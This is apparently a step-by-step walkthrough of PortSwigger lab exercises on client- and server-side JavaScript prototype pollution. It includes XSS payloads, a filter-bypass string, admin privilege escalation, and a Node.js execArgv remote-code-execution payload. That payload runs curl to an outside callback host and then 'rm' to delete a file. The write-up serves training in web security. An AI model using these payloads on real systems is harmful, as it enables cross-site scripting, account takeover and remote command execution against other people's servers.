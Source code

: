 
Step1: 
First we find a point where we can inject query



Here we have two places submit feedback and search blog.

After seeing the burp response for both it is slightly clear where we inject






From here one thing is clear that we can inject in search query parameter

Step2:
Now when I inspect page and go to searchLoggerConfigurable.js we can see


So after analysize it is clear that 
Object.defineProperty() method to make the transport_url unwritable and unconfigurable. However, notice that it doesn't define a value property

So we inject query in url

__proto__[value]=data:,alert(1);




And the lab is solved.




Step1:
To solve we have two approach first I will explain how to solve manually then using DOM invader.

If we view .js file for search query we have
async function logQuery(url, params) { 
try { 
await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)}); 
} catch(e) { 
console.error("Failed storing query"); 
} 
} 
async function searchLogger() { 
let config = {params: deparam(new URL(location).searchParams.toString())}; 
if(config.transport_url) { 
let script = document.createElement('script'); 
script.src = config.transport_url; 
document.body.appendChild(script); 
} 
if(config.params && config.params.search) { 
await logQuery('/logger', config.params); 
} 
} 
window.addEventListener("load", searchLogger);


From here on thing is clear that
• Dynamic Script Injection:
	• The code creates a script element and assigns its src attribute to config.transport_url without proper validation. If an attacker can manipulate the transport_url, they could point it to a malicious script. This allows for cross-site scripting (XSS) attacks.


So to solve this we use __proto__[transport_url]=data:,alert(10) 


Solving using dom-invader

Enabling DOM inavder 
We  have a bupsuite sign at top right


Click on it and under DOM invader turn on "DOM invader is on" option

And under attack turn on prototype pollution .


Step3:
Now refresh page and under DOM-invader we have


Click on scan for gadget and we have sink



Simple click on exploit and we have exploit in url


And Lab is solved.



Step1:
To solve this lab manual we first view 

async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);


1. Notice that the manager.sequence property is passed to eval(), but this isn't defined by default.
When I add this in url 
/?__proto__.hello=world

And then in inspect when I ue 
Object.prototype

It show hello property with value world


Step2:
Now we use 
/?__proto__.sequence=alert(1)

When we run this it given error in consolve. So we use alert(1) -

And the alert is trigger





Using DOM invader

Step1:
Refresh page we have source 

Click on scan for gadget

Step2:


And we have one sink found click on exploit

Step3:
In url append exploit with -


And the lab is solved.


?__pro__proto__to__[transport_url]=data:,alert(1);


Step1:

First we analyze 


Example:
This script logs query parameters from the URL on page load, potentially sending them to a server (/logger) if the search parameter exists. It also sanitizes keys to prevent prototype pollution by removing dangerous properties like constructor and __proto__

Step2:

Now we apply different payload to.

After few payload we come to conclusion that that this can trigger the alert

?__pro__proto__to__[transport_url]=data:,alert(1);







Step1:
First we login with given credential

Step2:
Click on button so we have updated billing and delivery address



Step3:
Now when we analyze POST /my-account/change-address we can see in response we have admin parameter.

Step4:
If we simply try to inject parameter we can see in result it reflect


Here we see that admin is set to false and seconly w have to inject a prototype so we escalate 
Step4:


Here we can see that we are able to override admin parameter.

Step5:
So now we end a post reuqest to /admin and we can see in response we have


Simply Send a post request to /delete endpoint with carlos parameter


And the lab is solved.



Step1:
Login with given credential

Step2:
Click on submit to update detail


Step3:
Send the /my-account/change-address to repeater.



Here we can see there are different parameter in response.
And currentyl I have no idea which vulnerabilty is there
• Status code override
• JSON spaces override
• Charset override


Step3:
If I try to change admin function using  prototype pollution. 


We can see that admin is set to true. But we have no such /admin point to work with

Step5:
If I make a syntax error we can see in response


We can see in response we have statu code. So we change it using same logic




To trigger toe status we again make a syntax error this time we can see change status code. But we use status code between 400 and 599


And the Lab is solved.




Step1:
To check server side prototype pollution we use extension server side prototype pollution.

Step2:
Login with given credential and click on submit to update address. Secondly go to admin panel and click on Maintenance button.

Step3:
Send the POST /my-account/change-address request to repeater 


Now right click on rightclick under extension-> server side prototype pollution scanner->server side prototype pollution

Now under extension we can see


In Burp professional this is also this onDashBoard->issue activity


As json spacing is mention first we try by adding 10 char space


Step4:
Now we try the payload to execute a command by providing command line argument  in node js using execArgv 

"__proto__": {
    "execArgv":[
   "--eval=require('child_process').execSync('curl a6hwdbmkot68ytdmo4ilpsxe95fw3mrb.oastify.com')"
    ]
}

Here a6hwdbmkot68ytdmo4ilpsxe95fw3mrb.oastify.com is my collaborator id to confirm



Here we can see in reponce the value is set 

Now go to POST /admin/jobs  endpoint and send request in reponce we can  se message and confirm it from collaborator


In collaborator we have



Step5:
Now we have to execute a code on server side. Simply replace curl colaborator id with rm /home/carlos/morale.txt

"__proto__": {
    "execArgv":[
   "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
}





Now we again go to POST /admin/jobs and send request



And the Lab is solved.

